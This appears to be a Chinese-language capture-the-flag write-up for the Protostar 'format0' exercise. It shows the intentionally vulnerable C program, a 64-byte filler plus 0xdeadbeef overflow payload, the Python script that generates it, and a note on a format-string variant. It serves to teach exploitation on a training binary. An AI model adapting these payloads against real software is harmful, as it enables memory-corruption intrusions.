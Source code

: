 # format0

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

void vuln\(char \*string\)

{

volatile int target;

char buffer\[64\];

target = 0;

sprintf\(buffer, string\);

if\(target == 0xdeadbeef\) {

```
  printf\("you have hit the target correctly :\)\n"\);
```

}

}

int main\(int argc, char \*\*argv\)

{

vuln\(argv\[1\]\);

}

## （二）解题过程：

这道题比较简单。有两种方法。

1） 缓冲区溢出

2）格式字符串漏洞

思路验证：

1\)缓冲区溢出

buff\[64\]

target

ebp

ret

argc

argv

---

payload构造 ： ‘A’\*64 + target\(0xdeadbeef\)

![](/png/47.png)

用python实现如下：

![](/png/48.png)


用规范的python脚本实现：

\#!/usr/bin/env python

import struct

nosled = "\x90" \* 64

target = struct.pack\("I",0xdeadbeef\)

print nosled+target

![](/png/50.png)

命令行执行 注意要带参数

![](/png/51.png)

2\) 用格式化字符串修改

We can use the unsigned decimal integer width field modifier %\(int\)u to help fill the buffer.

![](/png/49.png)

